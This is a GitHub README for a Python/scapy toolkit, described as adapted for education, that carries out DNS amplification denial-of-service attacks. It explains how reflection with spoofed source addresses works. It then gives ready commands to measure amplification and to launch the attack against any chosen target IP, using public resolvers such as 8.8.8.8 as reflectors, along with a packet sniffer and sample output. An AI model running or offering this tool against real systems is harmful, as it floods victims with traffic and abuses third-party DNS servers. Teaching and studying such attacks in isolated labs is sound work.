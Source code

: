 DNS Amplification attack
===
Customization of the repository of tony2037
[github-Dns-Amplification-Attack](https://github.com/tony2037/Dns-Amplification-Attack)

Some adaptations have been made for easier deployment and more flexible use in an educational setting.

# How does it work ?
According to [DNS Amplification Attack](https://www.cloudflare.com/learning/ddos/dns-amplification-ddos-attack/) :

1. The attacker uses a compromised endpoint to send UDP packets with spoofed IP addresses to a DNS recursor. The spoofed address on the packets points to the real IP address of the victim.
2. Each one of the UDP packets makes a request to a DNS resolver, often passing an argument such as “ANY” in order to receive the largest response possible.
3. After receiving the requests, the DNS resolver, which is trying to be helpful by responding, sends a large response to the spoofed IP address.
4. The IP address of the target receives the response and the surrounding network infrastructure becomes overwhelmed with the deluge of traffic, resulting in a denial-of-service.

![](https://i.imgur.com/2LJ8JU4.png)

# Experience
## Explanation
This package is a standalone toolkit based on **python scapy** which send a **UDP/IP** packet carry a **DNS** packet with **DNS Resource Record** packet. The scapy library is included in the repository to ensure compatibility with virtually any host that can run Python. This also reduces the number of steps needed to get started.<br>
The default `destination` is `8.8.8.8`, which is well-known **google DNS server**.<br>
The default `target address` is local, but can be easily changed to any target in the arguments<br>

## Usage
### Clone repository
```shell
git clone https://github.com/Ezecheel/Dns-Amplification-Attack
```
### Reconnaissance to check amplification
```shell
sudo python DAA_recon.py -D _destination_IP_ -q _queryname_ -qt _id of query type_ -n _number of packets_
```
**destination_IP** is the IP address of the DNS server to which the request will be sent, default is 8.8.8.8<br>
**queryname** is the domainname for which the record will be requested, default is google.com<br>
**id of query type** is the id number of the record type that will be requested, default is 255 (ALL)<br>
**number of packets** is the number of DNS queries that should be sent as part of simulated attack, default is 1<br>

| TYPE | value | meaning |
| ---- | ---- | ---- |
| A | 1 | a host address |
| NS | 2 | an authoritative name server |
| MD | 3 | a mail destination (Obsolete - use MX) |
| MF | 4 | a mail forwarder (Obsolete - use MX) |
| CNAME | 5 | the canonical name for an alias |
| SOA | 6 | marks the start of a zone of authority |
| MB | 7 | a mailbox domain name (EXPERIMENTAL) |
| MG | 8 | a mail group member (EXPERIMENTAL) |
| MR | 9 | a mail rename domain name (EXPERIMENTAL) |
| NULL | 10 | a null RR (EXPERIMENTAL) |
| WKS | 11 | a well known service description |
| PTR | 12 | a domain name pointer |
| HINFO | 13 | host information |
| MINFO | 14 | mailbox or mail list information |
| MX | 15 | mail exchange |
| TXT | 16 | text strings |

for a more complete list see: https://www.iana.org/assignments/dns-parameters/dns-parameters.xhtml

The script outputs the amplification level of the requested record. This can be used to find suitable records for simulated attacks. Additionally, it is possible to sent a number of requests to ensure that the amplification level remains sufficiently high when the DNS server gets flooded with requests.
### Launch attack
```shell
sudo python DAA.py -D _destination_IP_ -T _target_IP_ -q _queryname_ -qt _id of query type_ -n _number of packets_
```
for **destination_IP**, **queryname**, **id of query type** and **number of packets** see above.<br>
**target_IP** is the IP address of the target machine to which the DNS replies should be sent, default is 127.0.0.1<br>

### Listen to DNS traffic
```shell
sudo python snifffer.py
```
This returns all DNS packets that are received on the interface, similar to a Wireshark capture filtered on DNS.
This can serve as an introduction to see which records are being requested and received, including which replies seem sufficiently large to be used as example.
### Snapshot //add snapshots
#### Send packet
```shell
         |###[ DNS Question Record ]### 
         |  qname     = 'qq.com'
         |  qtype     = ALL
         |  qclass    = IN
        an        = None
        ns        = None
        ar        = None

Are you sure you want to attack ? [Y]/NY
.
Sent 1 packets.
```
#### Sniffing
```shell
###[ IP ]### 
     version   = 4
     ihl       = 5
     tos       = 0x0
     len       = 52
     id        = 1
     flags     = 
     frag      = 0
     ttl       = 64
     proto     = udp
     chksum    = 0x608a
     src       = 10.1.0.30
     dst       = 8.8.8.8
     \options   \
###[ UDP ]### 
        sport     = domain
        dport     = domain
        len       = 32
        chksum    = 0x9f30
###[ DNS ]### 
           id        = 0
           qr        = 0
           opcode    = QUERY
           aa        = 0
           tc        = 0
           rd        = 1
           ra        = 0
           z         = 0
           ad        = 0
           cd        = 0
           rcode     = ok
           qdcount   = 1
           ancount   = 0
           nscount   = 0
           arcount   = 0
           \qd        \
            |###[ DNS Question Record ]### 
            |  qname     = 'qq.com.'
            |  qtype     = ALL
            |  qclass    = IN
           an        = None
           ns        = None
           ar        = None
```
